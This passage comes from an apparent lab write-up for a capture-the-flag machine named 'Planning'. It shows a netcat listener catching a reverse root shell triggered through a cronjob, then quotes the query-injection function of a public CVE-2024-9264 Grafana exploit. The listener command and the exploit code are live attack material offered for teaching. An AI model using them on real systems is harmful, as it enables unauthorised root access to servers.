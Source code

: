 To expedite the process we can also click the `Run Now` button to run the `cronjob` now.

![Run Now](/assets/img/img_Planning/Planning-1746917760855.png)


We get a callback on our listener!

```
[May 11, 2025 - 08:52:58 (AEST)] exegol-nightly planning # nc -lvnp 1337
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.129.241.200.
Ncat: Connection from 10.129.241.200:47530.
bash: cannot set terminal process group (1436): Inappropriate ioctl for device
bash: no job control in this shell
root@planning:/#
```

Just like that we have root!

```
root@planning:~# ls -l
ls -l
total 8
-rw-r----- 1 root root   33 May 10 19:24 root.txt
drwxr-xr-x 2 root root 4096 Apr  3 12:54 scripts
```

# Beyond Root
## Foothold PoC
Taking a look at the [PoC](https://github.com/nollium/CVE-2024-9264/blob/main/CVE-2024-9264.py) the most interesting function, which is the function that exploits the main vulnerability, is the `run_query` function.

```python
@inform("Running duckdb query")
def run_query(session: ScopedSession, query: str) -> Optional[List[Any]]:
    path = "/api/ds/query?ds_type=__expr__&expression=true&requestId=Q101"
    data = {
        "from": "1729313027261",
        "queries": [
            {
                "datasource": {
                    "name": "Expression",
                    "type": "__expr__",
                    "uid": "__expr__",
                },
                "expression": query,
                "hide": False,
                "refId": "B",
                "type": "sql",
                "window": "",
            }
        ],
        "to": "1729334627261",
    }

    res = session.post(path, json=data)
    data = cast(Dict, res.json())

    # Check for DuckDB not found error
    if "results" in data and "B" in data["results"]:
```